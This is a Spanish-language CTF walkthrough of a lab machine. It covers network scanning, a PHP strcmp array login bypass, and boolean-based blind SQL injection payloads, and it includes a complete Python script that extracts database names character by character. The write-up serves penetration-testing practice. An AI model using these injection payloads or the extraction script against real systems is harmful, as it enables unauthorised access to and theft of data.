 ### Tags: `SQLI` `REC` `BufferOverflow`

# Reconocimiento (`Linux`)

Lo primero que hacemos es un **escaneo de equipos** que estén conectados ami red de esta forma:

```ruby
arp-scan -I eth0 --localnet
```

![image](https://github.com/user-attachments/assets/ccac24ad-4eac-420f-aca8-5e2e0767c00d)

# Escaneo (**80**)

```css
sudo nmap -p- --open -sS --min-rate 4000 -vvv -n -Pn <IP>
```

![image](https://github.com/user-attachments/assets/4f4b8e09-b5df-480f-b858-2f9ee6337f6a)

```css
sudo nmap -p80 -sCV <IP> -oN escaneo  
```

![image](https://github.com/user-attachments/assets/fcaa1281-32b9-48fc-b9f4-ac450e9d5959)

# Port 80

Navegando por la web hicimos un `control + u` y observamos un doble ``==``  que nos llamo la atención  y vemos que estaba en **base64**, lo cual vamos decodificar

![image](https://github.com/user-attachments/assets/60c94905-ca6b-46b8-b1b5-390ac5be5115)

Lo decodificamos y vemos que **nos dá otra cadena en base64**, lo volvemos a decodificar y nos da una **ruta** que vamos a poner en la web

![image](https://github.com/user-attachments/assets/adb0010e-9595-4a60-a7d9-9dc6815b7c39)
![image](https://github.com/user-attachments/assets/0b46ff27-5876-4a25-8b68-b24eb6b19c15)

Tenemos un panel de login

![image](https://github.com/user-attachments/assets/f48e48b6-8658-4bc4-a84a-b492d40fc784)

Si vamos a la web principal en la parte de **Contact Us** tenemos posibles usuarios la cual vamos a probar en el panel

![image](https://github.com/user-attachments/assets/46bb2956-1b45-427d-8fc7-3a64be4afd97)

# BurpSuite

- El único que funciona es `rmichaels` ya que nos dice **invalid password** y en los otros users nos dice **invalid username**
	- Por ende lo que vamos a hacer es interceptar con Burp la petición

![image](https://github.com/user-attachments/assets/96280361-4028-4e0b-b60c-2239130dff7c)

- Para burlar la contraseña podemos representar un **array** para que devuelva un NULL y se se emplea un **strcompare** nos va da devolver un exitoso por ende considera que lo que pusimos es **correcto**
	- Y vemos que si, que funcionó.

![image](https://github.com/user-attachments/assets/d92f2a05-d958-48ca-94b6-adbe23a26d39)

Vemos que la **flag3** dice que continuemos con el CMS del link 

![image](https://github.com/user-attachments/assets/e32d9512-ef2b-4af2-b367-09a18a15f23f)
![image](https://github.com/user-attachments/assets/4088757e-0a9c-4232-8ac7-7402b7b0c23d)

Dentro del link tenemos esto:

![image](https://github.com/user-attachments/assets/32ad07b0-bb52-41d5-b5e7-8670ec7c20d9)

- Probamos hacer un **LFI** pero no funcionó, pero ponemos un comilla nos **salta un error** lo cual es curioso
	- Por ende otra ves vamos a usar Burp

![image](https://github.com/user-attachments/assets/4d1f44f9-7b64-4388-bb93-cad7d65c055f)

# SQLI *Boolean* Based *Blind*

- Si hacemos un `'or '1'='1-- -` vemos que cambia la respuesta 
	- Entonces lo que vamos a hacer es jugar con condiciones booleanas, si algo devuelve **TRUE exitoso**, devuelve un output, si no es correcto cambia el output

![image](https://github.com/user-attachments/assets/a5ebb031-fa20-43b9-9258-f172e00e385a)

- Ahora lo que hacemos es probar si la base de datos `mysql` que siempre esta existe, jugando `limit` para que nos de una única base de datos.
	- Si la igualdad es correcta (si mysql está en la segunda base de datos,) veremos el la respuesta **Welcome to the IMF Administration.**

![image](https://github.com/user-attachments/assets/fe45d776-4972-422b-9016-d32bc8bc0542)

Para comprobar si la primera base de datos era **information_schema** y vemos que sí

![image](https://github.com/user-attachments/assets/416d7d56-ad85-49d6-857c-f446d35568e1)

# Python Scripting

- Vamos a hacernos un script en Python para fuzear carácter por carácter y obtener el nombre de la base de datos.

### Cuantas Bases de Datos hay

- Con este comando podemos observar cuantas bases de datos hay y vemos que son 5 porque cuando lo igualamos a 5 nos sale el mensajito **Welcome to the IMF Administration.**
	- `' or (select count(schema_name) from information_schema.schemata)='5 `  (poner Ctrl+u para urlenconded)

```python
#!/usr/bin/python3

from pwn import *   #Para poder jugar con barras de progresos
import requests     #Para hacer peticiones HTTP
import string       #Para generar los caracteres de la contraseña
import time         #Para poder hacer sleep
import sys          #Para poder usar sys.exit()
import pdb          #Para poder hacer debugging
import signal       #Para hacer CTRL+C 



def def_handler(sig, frame):
    print("\n\n[!] Saliendo...\n")
    sys.exit(1)

#Ctrl + c
signal.signal(signal.SIGINT, def_handler)



#Variables globales
main_url = "http://192.168.0.192/imfadministrator/cms.php?pagename=home"   #La peticion se tramita por GET
characters = string.ascii_lowercase + '-_'    #string.punctuation  #Abarca todo los simbolos el punctuation


def makeRequest():

    cookies = {"PHPSESSID": "hq7ejo76tsdk4prr3kdn9lsvm1"}   #Cookie de la sesion

    database = ""


    #Barras de Progreso
    p1 = log.progress("Fuerza Bruta")  
    p1.status("Iniciando proceso de fuerza bruta...")    #Para poder ver el mensaje de la barra de progreso
    time.sleep(2)   #Para poder hacer sleep

    p2 = log.progress("Databases")



    for dbs in range(0, 5): #porque hay 5 bases de datos 
        for position_character in range(1, 30):   #suponemos que la base de datos tiene 30 caracteres o menos
            for character in characters:
                sqli = main_url + f"'+and+(select+substring(schema_name,{position_character},1)+from+information_schema.schemata+limit+{dbs},1)='{character}"

                #p1.satatus(sqli)   #si quiero ver como se tramita para cada posicion y cada caracter

                r = requests.get(sqli, cookies=cookies)  #para poder ver la respuesta de la peticion

                if "Welcome to the IMF Administration" in r.text:
                    database += character
                    p2.status(database)  #jugamos con esta barra de progreso para que me muestre los datos de la base de datos
                    break

        database += ","


if __name__ == '__main__':
    makeRequest()

```



































